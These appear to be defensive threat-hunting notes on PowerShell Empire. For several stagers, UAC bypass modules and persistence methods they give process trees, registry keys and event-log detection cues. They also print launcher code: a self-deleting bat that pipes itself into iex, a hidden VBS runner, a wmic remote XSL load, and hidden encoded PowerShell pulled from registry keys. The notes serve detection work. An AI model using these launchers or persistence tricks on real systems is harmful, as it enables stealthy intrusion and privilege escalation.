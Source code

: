 # Hunting Notes - PowerShell Empire

> Paolo Coba | 04/03/2021

-------------------------------------------

## Resources
* [https://www.securitynik.com/2022/02/beginning-powershell-empire-attack-in.html](https://www.securitynik.com/2022/02/beginning-powershell-empire-attack-in.html)
* [https://www.sans.org/white-papers/38315/](https://www.sans.org/white-papers/38315/)
* [https://enigma0x3.net/2016/03/15/phishing-with-empire/](https://enigma0x3.net/2016/03/15/phishing-with-empire/)
* [https://www.hackingarticles.in/multiple-ways-to-exploiting-windows-pc-using-powershell-empire/](https://www.hackingarticles.in/multiple-ways-to-exploiting-windows-pc-using-powershell-empire/)
* [https://support.microsoft.com/en-us/topic/how-to-use-the-regsvr32-tool-and-troubleshoot-regsvr32-error-messages-a98d960a-7392-e6fe-d90a-3f4e0cb543e5](https://support.microsoft.com/en-us/topic/how-to-use-the-regsvr32-tool-and-troubleshoot-regsvr32-error-messages-a98d960a-7392-e6fe-d90a-3f4e0cb543e5)

## Overview

## Characteristics

## Experiments

### Stagers

* `windows/launcher_bat`: creates bat file with base64 encoded PowerShell. 
    * Process tree on target:
    ```cmd
    cmd.exe (C:\Windows\system32\cmd.exe /c "<launcher.bat>")-> powershell.exe ("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"  -nol -nop -ep bypass "[IO.File]::ReadAllText('C:\Users\IEUser\launcher.bat')|iex")-> powershell.exe (powershell -noP -sta -w 1 -enc <base64>)
    ```
    * Generated stager code (not obfuscated)
    ```bat
    # 2>NUL & @CLS & PUSHD "%~dp0" & "%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -nol -nop -ep bypass "[IO.File]::ReadAllText('%~f0')|iex" & DEL "%~f0" & POPD /B
    powershell -noP -sta -w 1 -enc <BASE64>
    ```
    * Detection
        * `Windows Powershell.evtx`:
            * Event ID 400 - Engine state is changed from None to Available: HostApplication will contain base64 encoded PowerShell
            * Event ID 600 - Provider Lifecycle:
                * Will contain powershell IEX that executes content in bat script.
                * Will contain stager powershell base64 encoded code.
        * `Microsoft-Windows-PowerShell%4Operational.evtx`
            * Event ID 4100 - Executing Pipeline: HostApplication contains base64 encoded PowerShell
            * Event ID 4104 - Execute a Remote Command: Contains full PowerShell stager code.
* `windows/launcher_vbs`:
    * Process tree on target: `wscript.exe` creates and starts standalone `powershell.exe` process running stager code.
    ```cmd
    powershell.exe ("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noP -sta -w 1 -enc <base64>) -> conhost.exe
    ```
    * Generated stager code (not obfuscated)
    ```vbs
    Dim objShell
    Set objShell = WScript.CreateObject("WScript.Shell")
    command = "powershell -noP -sta -w 1 -enc  <base64>"
    objShell.Run command,0
    Set objShell = Nothing
    ```
    * Detection:
        * Same as above
* `windows/launcher_sct`: Uses with `regsvr32.exe` to register OLE object.
    * MITRE: [https://attack.mitre.org/techniques/T1218/010/](https://attack.mitre.org/techniques/T1218/010/)
    * [https://support.microsoft.com/en-us/topic/how-to-use-the-regsvr32-tool-and-troubleshoot-regsvr32-error-messages-a98d960a-7392-e6fe-d90a-3f4e0cb543e5](https://support.microsoft.com/en-us/topic/how-to-use-the-regsvr32-tool-and-troubleshoot-regsvr32-error-messages-a98d960a-7392-e6fe-d90a-3f4e0cb543e5)
    * Process Tree: `powershell.exe` containing agent runs as standalone process.
    ```cmd
    regsvr32.exe -> powershell.exe
    ```
    * Detection:
        * Security EVTX:
            * Event ID 4688 - Process Creation: look for `powershell.exe` with parent as `regsvr32.exe`
        * PowerShell Event Logs same as before
        * Check launch arguments of `regsvr32.exe`
* `windows/wmic`: Uses `wmic` to exploit the use of `XSL` files
    * Launch
    ```cmd
    wmic os get /format:"<server>/<xsl file>"
    ```
    * Process Tree: `powershell.exe` containing agent runs as a standalone process.
    ```cmd
    wmic.exe -> powershell.exe
    ```
    * Detection:
        * Security EVTX:
            * Event ID 4688 - Process Creation: `powershell.exe` with parent `wmic.exe`
            * Event ID 4688 - Process Creation: `wmic.exe`, check launch arguments which will contain xsl file.
        * PowerShell Event Logs
        * 

### Privilege Escalation
* `powershell/privesc/bypassuac_env`: Bypasses UAC by modifying environmental variables in Registry.
    * Resource:
        * [https://www.tiraniddo.dev/2017/05/exploiting-environment-variables-in.html](https://www.tiraniddo.dev/2017/05/exploiting-environment-variables-in.html)
    * Process Tree
    ```cmd
    svchost.exe (No arguments) -> powershell.exe (C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoP -NonI -w Hidden -c $x=$((gp HKCU:Software\Microsoft\Windows Update).Update); powershell -NoP -NonI -w Hidden -enc $x; Start-Sleep -Seconds 1\system32\cleanmgr.exe /autoclean /d C:) -> powershell.exe (powershell.exe -NoP -NonI -w Hidden -enc <base64>)
    ```
    * Exploits task `SilentCleanup`: 
        * Modifies `%windir%` environmental variable (`HKCU\Environment\windir`) to contain powershell code for execution.
        * Modifies `HKCU\Software\Microsoft\Windows\Update` to contain base64 stager code.
        * Runs with elevated privileges
* `powershell/privesc/bypassuac_eventvwr`:
    * [https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/](https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/)
* `powershell/privesc/bypassuac_fodhelper_progids`
    * [https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
    * Writes Registry keys used by `fodhelper.exe`
        * `HKCU\Software\Classes\ms-settings\CurVer\(Default)`: cotains pointer to registry key with malicious code.
        * `HKCU\Software\Classes\.pwn\Shell\Open\command\(Default)`: contains command to execute
    * Process Tree:
    ```cmd
    powershell.exe (existing agent) -> fodhelper.exe -> powershell.exe (new agent)
    ```
    * Detection:
        * Security EVTX:
            * Event ID 4688 - Process Creation: creation of `fodhelper.exe` process with no arguments from `powershell.exe`
            * Event ID 4688 - Process Creation: creation of `powershell.exe` process from `fodhelper.exe`
            * Event ID 4688 - Process Creation: termination of `fodhelper.exe`
        * PowerShell Event logs same as before
* `powershell/privesc/bypassuac_wscript`
    * [https://rstforums.com/forum/topic/97349-uac-bypass-vulnerability-in-windows-script-host/](https://rstforums.com/forum/topic/97349-uac-bypass-vulnerability-in-windows-script-host/)
* `powershell/privesc/bypassuac_tokenmanipulation`: TBD
* `powershell/privesc/bypassuac_sdctlbypass`:
    * [https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/](https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/)

### Persistence
* `powershell/persistence/userland/registry`: Establishes persistence in Registry. Modified Keys
    * `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Updater`: sets value as `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x`
    * `HKCU\Software\Microsoft\Windows\CurrentVersion\Debug`: sets base64 encoded stager logic. This is called by the script in the Updater key.
* `powershell/persistence/userland/backdoor_lnk`: Establishes persistence through specified `lnk` file.
    * Specified `lnk`: Detection through `LECmd` (Zimmerman tools). Executes base64 content that starts process with PowerShell code from the specified registry key
    ```powershell
    powershell  -w hidden -nop -enc <base64>
    
    Base64 decodes to
    [System.Diagnostics.Process]::Start("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe");IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp <registry key>).debug)))
    ```
    * Backdoor code contained in the specified registry key. Default is `HKCU\Software\Microsoft\Windows\debug
* 
